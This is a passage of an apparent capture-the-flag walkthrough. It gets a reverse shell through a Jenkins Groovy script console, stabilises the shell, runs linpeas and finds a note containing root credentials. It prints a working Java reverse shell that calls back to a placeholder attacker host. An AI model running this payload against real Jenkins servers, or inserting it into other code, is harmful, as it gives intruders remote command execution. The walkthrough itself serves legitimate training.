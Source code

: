 ![](cybersecurity/images/Pasted%2520image%252020250529145112.png)

![](cybersecurity/images/Pasted%2520image%252020250529145118.png)

![](cybersecurity/images/Pasted%2520image%252020250529145132.png)

As seen, this is being managed by groovy, we can guide ourselves on this medium post:

```
https://blog.pentesteracademy.com/abusing-jenkins-groovy-script-console-to-get-shell-98b951fa64a6
```

![](cybersecurity/images/Pasted%2520image%252020250529145235.png)

```java
String host="OUR_IP";
int port=8044;
String cmd="/bin/sh";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```


Once we run this on the console, we get a reverse shell:

![](cybersecurity/images/Pasted%2520image%252020250529145512.png)

Let's stabilize our shell once again:

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
/usr/bin/script -qc /bin/bash /dev/null
CTRL + Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export BASH=bash
```

We can use `linpeas` again:

![](cybersecurity/images/Pasted%2520image%252020250529145945.png)

Once again, in `/opt` we got a note:

```
jenkins@jenkins:/tmp$ cat /opt/note.txt
Aubreanna,

Will wanted these credentials secured behind the Jenkins container since we have several layers of defense here.  Use them if you
need access to the root user account.

root:tr0ub13guM!@#123
```
